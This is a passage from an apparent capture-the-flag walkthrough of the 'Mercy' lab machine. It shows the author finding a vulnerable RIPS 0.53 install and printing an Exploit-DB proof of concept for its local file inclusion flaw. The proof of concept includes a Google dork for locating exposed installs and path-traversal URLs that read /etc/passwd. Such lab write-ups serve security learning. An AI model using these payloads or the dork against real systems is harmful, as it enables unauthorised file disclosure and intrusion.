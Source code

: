 When I request the **nomercy** resource it redirects me to the RIPS page that's a static source code analyser for vulnerabilities.

![](/assets/images/mercy/screenshot-6.png)

Searching for vulnerabilities for this RIPS version, I found that this is vulnerable to Local File Inclusion, so I downloaded the exploit database proof of concept, as shown below:

``` bash
root@kali:~$ wget https://www.exploit-db.com/download/18660
root@kali:~$ cat 18660
# RIPS <= 0.53 Multiple Local File Inclusion Vulnerabilities
# Google Dork: allintitle: "RIPS - A static source code analyser for vulnerabilities in PHP scripts"
# Althout this script is not intended to be accesible from internet, there
are some websites that host it.
# Download: http://sourceforge.net/projects/rips-scanner/
# Date: 23/03/12
# Contact: mattdch0@gmail.com
# Follow: @mattdch
# www.localh0t.com.ar


File: /windows/code.php
=======================

102: file $lines = file($file);
    96: $file = $_GET['file'];

PoC:
http://localhost/rips/windows/code.php?file=../../../../../../etc/passwd

File: /windows/function.php
===========================

    64: file $lines = file($file);
        58: $file = $_GET['file'];

PoC:
http://localhost/rips/windows/function.php?file=../../../../../../etc/passwd(will
read the first line of the file)
```


## Exploitation
